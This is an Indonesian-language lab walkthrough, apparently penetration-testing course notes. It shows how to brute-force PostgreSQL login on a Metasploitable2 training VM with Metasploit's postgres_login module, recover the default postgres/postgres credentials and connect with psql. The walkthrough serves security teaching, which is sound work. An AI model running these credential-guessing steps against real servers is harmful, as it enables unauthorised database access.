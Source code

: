 # Exploit Port 5432 (PostgreSQL)
- Buka msfconsole di terminal
```sh
msfconsole
```

- Gunakan modul `auxiliary/scanner/postgres/postgres_login` untuk melakukan brute force pada postgre SQL
```sh
use auxiliary/scanner/postgres/postgres_login
```

- Tampilkan daftar parameter yang dibutuhkan di modul tersebut
```sh
show options
```


- Isi parameter `USERNAME` dengan `postgres`, isi parameter `USER_AS_PASS` dengan `true` sehingga username akan dipergunakan sebagai password, dan isi parameter RHOST dengan IP metasploitable2
```sh
set username postgres
set user_as_pass true
set rhosts <IP_metasploitable2>
```


- Setelah pengisian parameter selesai jalankan modul tersebut. Setelah dijalankan didapat username `postgres` dan password `postgres` untuk mengakses postgreSQL di server
```sh
run
```


- Lakukan uji coba koneksi ke PostgreSQL dengan username `postgres` kemudian masukkan password `postgres`
```sh
psql -U postgres -h <IP_metasploitable2>
```